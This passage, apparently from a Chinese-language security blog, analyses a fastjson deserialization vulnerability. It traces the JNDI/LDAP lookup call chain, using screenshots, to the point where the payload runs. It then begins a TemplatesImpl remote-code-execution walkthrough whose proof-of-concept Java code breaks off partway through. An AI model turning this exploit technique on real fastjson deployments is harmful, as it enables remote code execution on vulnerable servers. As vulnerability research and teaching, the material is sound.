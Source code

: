 [![](https://p2.ssl.qhimg.com/t011bd9b96940d0db0e.png)](https://p2.ssl.qhimg.com/t011bd9b96940d0db0e.png)

调用了getURLOrDefaultInitCtx(name).lookup()，跟进

[![](https://p5.ssl.qhimg.com/t011372ab9b3d7d7562.png)](https://p5.ssl.qhimg.com/t011372ab9b3d7d7562.png)

在getURLOrDefaultInitCtx()内，调用getURLContext()请求ldap服务

[![](https://p0.ssl.qhimg.com/t01016a8b868e536ed2.png)](https://p0.ssl.qhimg.com/t01016a8b868e536ed2.png)

之后通过getURLObject()从远程的ldap服务获取Context对象

[![](https://p1.ssl.qhimg.com/t0120eeca751a724cda.png)](https://p1.ssl.qhimg.com/t0120eeca751a724cda.png)

在getURLObject()内调用factory.getObjectInstance()，完成反序列化，调用了payload

[![](https://p4.ssl.qhimg.com/t01734580b0b68b6feb.png)](https://p4.ssl.qhimg.com/t01734580b0b68b6feb.png)

完整调用链：

[![](https://p5.ssl.qhimg.com/t015473989064d2b443.png)](https://p5.ssl.qhimg.com/t015473989064d2b443.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8TemplatesImpl%E7%B1%BB%E8%BF%9B%E8%A1%8CRCE"></a>利用TemplatesImpl类进行RCE

<a class="reference-link" name="%E4%B8%80%E3%80%81%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA"></a>**一、环境搭建**

我们使用IDEA搭建即可。
- 添加maven依赖后，添加Poc.java
```
//Poc.java

package com.fj;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.maven.surefire.shade.booter.org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class Poc `{`
    public static String readClass(String cls)`{`
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try `{`
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        `}` catch (IOException e) `{`
            e.printStackTrace();
        `}`

        String result = Base64.encodeBase64String(bos.toByteArray());

        return result;
    `}`

    public static void poc() `{`
        ParserConfig config = new ParserConfig();
```